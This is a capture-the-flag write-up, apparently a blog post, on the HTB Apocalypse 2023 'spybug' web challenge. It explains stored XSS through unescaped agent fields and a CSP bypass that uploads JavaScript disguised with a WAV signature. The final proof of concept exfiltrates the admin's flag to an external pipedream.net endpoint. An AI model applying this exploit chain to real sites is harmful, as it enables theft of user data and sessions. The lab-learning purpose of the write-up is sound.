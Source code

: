 ```yaml
---
layout: post
title: "HTB apocalypse CTF 2023 spybug Write Up"
description: This article is about write-up for the HTB apocalypse CTF 2023. there is only one web challenges, which contain an XXS bug
date: 2023-03-23 22:13:49
---
```

### spybug

```javascript
require("dotenv").config();

const fs = require("fs");
const path = require("path");
const express = require("express");
const session = require("express-session");

const { createAdmin } = require("./utils/database");
const { visitPanel } = require("./utils/adminbot");

const genericRoutes = require("./routes/generic");
const panelRoutes = require("./routes/panel");
const agentRoutes = require("./routes/agents");

const application = express();

const uploadsPath = path.join(__dirname, "uploads");

if (!fs.existsSync(uploadsPath)) fs.mkdirSync(uploadsPath);

application.use("/uploads", express.static(uploadsPath));
application.use("/static", express.static(path.join(__dirname, "static")));

application.use(express.urlencoded({ extended: true }));
application.use(express.json());

application.use(
  session({
    secret: 'asdf',
    resave: true,
    saveUninitialized: true,
  })
);

application.use((req, res, next) => {
  res.setHeader("Content-Security-Policy", "script-src 'self'; frame-ancestors 'none'; object-src 'none'; base-uri 'none';");
  res.setHeader("Cache-Control", "no-cache, no-store, must-revalidate");
  res.setHeader("Pragma", "no-cache");
  res.setHeader("Expires", "0");
  next();
});

application.set("view engine", "pug");

application.use(genericRoutes);
application.use(panelRoutes);
application.use(agentRoutes);

application.listen(process.env.API_PORT, "0.0.0.0", async () => {
  console.log(`Listening on port ${process.env.API_PORT}`);
});

createAdmin();
setInterval(visitPanel, 60000);
```
In the main code, we can see that the admin bot connects every 60 seconds, and that CSP is applied to this service.

```javascript
exports.visitPanel = async () => {
  try {
    const browser = await puppeteer.launch(browserOptions);
    let context = await browser.createIncognitoBrowserContext();
    let page = await context.newPage();

    await page.goto("http://0.0.0.0:" + process.env.API_PORT, {
      waitUntil: "networkidle2",
      timeout: 5000,
    });

    await page.type("#username", "admin");
    await page.type("#password", process.env.ADMIN_SECRET);
    await page.click("#loginButton");

    await page.waitForTimeout(5000);
    await browser.close();
  } catch (e) {
    console.log(e);
  }
};
```
The admin bot logs in with the admin account every 60 seconds, stays in the service for 5 seconds, and then closes the browser.

```javascript
router.get("/panel", authUser, async (req, res) => {
  res.render("panel", {
    username:
      req.session.username === "admin"
        ? process.env.FLAG
        : req.session.username,
    agents: await getAgents(),
    recordings: await getRecordings(),
  });
});
```
the flag is set as an environment variable, and this flag is rendered in /panel if you have an administrator's session.

in the end, to get the flag, we have to log in with the admin account. But we can't get admin's account in this challenge.

let's think. The admin visits the challenge server every 60 seconds, logs in, connects to /panel, and stays there for 5 seconds. if XSS vulnerability occurs in /panel, we can hijack the flag when admin visits

```javascript
  res.render("panel", {
    username:
      req.session.username === "admin"
        ? process.env.FLAG
        : req.session.username,
    agents: await getAgents(),
    recordings: await getRecordings(),
  });
```
let's look at /panel router code. in addition to username, values such as agents and recordings are also rendered on the web page

```javascript
							td !{agent.hostname}
							td !{agent.platform}
							td !{agent.arch}
```
the panel.pug file has the same snippet as above. Add the received agents to the td tag one by one. since there is no separate HTML Entity processing here, we will be able to insert the XSS payload into the value of hostname or platform or arch. 

```plaintext
script-src 'self'; frame-ancestors 'none'; object-src 'none'; base-uri 'none';
```
but we know that the CSP of this service is applied as above. since `script-src` is set to `self`, if the file upload of this challenge service is possible, we will be able to bypass CSP by uploading the poc file and using it.

![](https://media.discordapp.net/attachments/962997469757702177/1088504742730277025/image.png?width=1432&height=938)

I tried uploading the poc.js file as above, but I could see that a strange 400 error occurred.

```javascript
const multerUpload = multer({
  storage: storage,
  fileFilter: (req, file, cb) => {
    if (
      file.mimetype === "audio/wave" &&
      path.extname(file.originalname) === ".wav"
    ) {
      cb(null, true);
    } else {
      return cb(null, false);
    }
  },
});

// (...)

router.post(
  "/agents/upload/:identifier/:token",
  authAgent,
  multerUpload.single("recording"),
  async (req, res) => {
    if (!req.file) return res.sendStatus(400);

    const filepath = path.join("./uploads/", req.file.filename);
    const buffer = fs.readFileSync(filepath).toString("hex");

    if (!buffer.match(/52494646[a-z0-9]{8}57415645/g)) {
      fs.unlinkSync(filepath);
      return res.sendStatus(400);
    }

    await createRecording(req.params.identifier, req.file.filename);
    res.send(req.file.filename);
  }
);
```
so i decided to analyze the file upload logic. Uploading files was done using the `multer` module.

```javascript
    if (!buffer.match(/52494646[a-z0-9]{8}57415645/g)) {
      fs.unlinkSync(filepath);
      return res.sendStatus(400);
    }
```
i was able to confirm that the above regular expression exists in the file upload router `/agents/upload/:identifier/:token`.

after reading the contents of the uploaded file and converting it to a hex value, it is checked whether there is a value matching the above regular expression in this value.

![](https://www.file-recovery.com/signatures/wav.png)
this regular expression is the logic to check the signature code of the wav file. This is because the wav file has a signature code called RIFF/WAVE as shown above.

![](https://cdn.discordapp.com/attachments/962997469757702177/1088508019144413204/2023-03-24_01.59.48.png)

as above, when I inserted the signature code of the wav file and uploaded the file, I could see that it worked normally.

```javascript
setTimeout(() => {
    fetch(`https://591d128f7a785b47477306206135146f.m.pipedream.net/?flag=${document.getElementsByTagName('h2')[0].innerText}`)
}, 1500);//RIFF1234WAVE
```
the final PoC is as above

![](https://media.discordapp.net/attachments/962997469757702177/1088512482705936445/2023-03-24_02.19.53.png?width=1432&height=938)

i inserted the XSS payload into the hostname using the user information function, and i could see that it was normally inserted.

![](https://media.discordapp.net/attachments/962997469757702177/1088512400380153997/2023-03-24_02.19.30.png?width=1986&height=858)

if you do this process as it is on the problem server, you can obtain the flag as above.